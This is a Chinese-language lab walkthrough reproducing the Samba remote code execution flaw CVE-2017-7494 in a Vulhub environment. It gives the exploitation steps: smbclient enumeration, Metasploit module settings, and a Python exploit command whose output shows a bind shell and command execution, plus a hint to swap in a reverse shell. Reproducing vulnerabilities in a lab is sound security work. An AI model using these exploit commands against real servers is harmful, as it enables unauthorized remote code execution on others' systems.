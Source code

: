 # Samba 远程命令执行漏洞 CVE-2017-7494

## 漏洞描述

Samba 允许连接一个远程的命名管道，并且在连接前会调用 `is_known_pipename()` 函数验证管道名称是否合法。在 `is_known_pipename()` 函数中，并没有检查管道名称中的特殊字符，加载了使用该名称的动态链接库。导致攻击者可以构造一个恶意的动态链接库文件，执行任意代码。

该漏洞要求的利用条件：

- 拥有共享文件写入权限，如：匿名可写等
- 需要知道共享目录的物理路径

参考：

- https://medium.com/@lucideus/sambacry-rce-exploit-lucideus-research-3a3e5bd9e17c
- https://github.com/opsxcq/exploit-CVE-2017-7494
- http://bobao.360.cn/learning/detail/3900.html

## 漏洞影响

```
Samba版本 ≤ 4.6.3（该漏洞在 4.6.4 被修复）
```

## 环境搭建

Vulhub 运行测试环境：

```
docker-compose up -d
```

测试环境运行后，监听 445 端口，默认开启了一个共享“myshare”，共享的目录为 `/home/share`，可读可写。

## 漏洞复现

smbclient 匿名枚举：

```shell
# apt install smbclient
smbclient -L //10.8.0.1/ -N
```

![](images/Samba%20远程命令执行漏洞%20CVE-2017-7494/image-20250612103018938.png)

smbclient 匿名连接（如果连接不成功，可能是运营商封禁 445 端口，建议本地或虚拟机测试）：

```
smbclient //10.8.0.1/myshare -N
```

![](images/Samba%20远程命令执行漏洞%20CVE-2017-7494/image-20250612102755569.png)

metasploit：

```
msf6 > use exploit/linux/samba/is_known_pipename
msf6 exploit(linux/samba/is_known_pipename) > set SMB_SHARE_NAME myshare
msf6 exploit(linux/samba/is_known_pipename) > set SMB_FOLDER /
msf6 exploit(linux/samba/is_known_pipename) > set rhosts 10.8.0.1
msf6 exploit(linux/samba/is_known_pipename) > run
```

![](images/Samba%20远程命令执行漏洞%20CVE-2017-7494/image-20250612103444786.png)

参考 [#224](https://github.com/vulhub/vulhub/issues/224)，如果 metasploit 无法复现这个漏洞，可以使用 [SambaCry RCE exploit for Samba 4.5.9](https://github.com/opsxcq/exploit-CVE-2017-7494) 来复现。

配置 SambaCry RCE exploit for Samba 4.5.9：

```
$ conda create -n py27 python=2.7
$ pip install -r requirements.txt
```

在目标服务器上执行 `/home/share/libbindshell-samba.so`，其中 myshare 是分享名称（在 vulhub 中为 `myshare`），而 `/home/share` 是对应的可写目录。`-u` 和 `-p` 用来指定用户名、密码，当前环境是一个匿名 smb，所以填写任意信息均可。因为 libbindshell-samba.so 是一个 bindshell，监听地址是 6699，所以我们通过 `-P` 指定这个端口。在实际渗透中，我们可以修改 `libbindshell-samba.c`，写入任意其他代码，如反弹 shell，避免使用 bindshell。

```
# py27
python exploit.py -t 10.8.0.1 -e libbindshell-samba.so -s myshare -r /home/share/libbindshell-samba.so -u guest -p guest -P 6699
[*] Starting the exploit
[+] Authentication ok, we are in !
[+] Preparing the exploit
[+] Exploit trigger running in background, checking our shell
[+] Connecting to 10.8.0.1 at 6699
[+] Veryfying your shell...
>>Linux f8c6cce116fa 5.4.119-20.0009.31 #1 SMP Tue Apr 9 16:04:48 CST 2024 x86_64 x86_64 x86_64 GNU/Linux
id
>>uid=65534(nobody) gid=0(root) groups=0(root),65534(nogroup)
```

成功执行命令：

![](images/Samba%20远程命令执行漏洞%20CVE-2017-7494/image-20250612104108547.png)
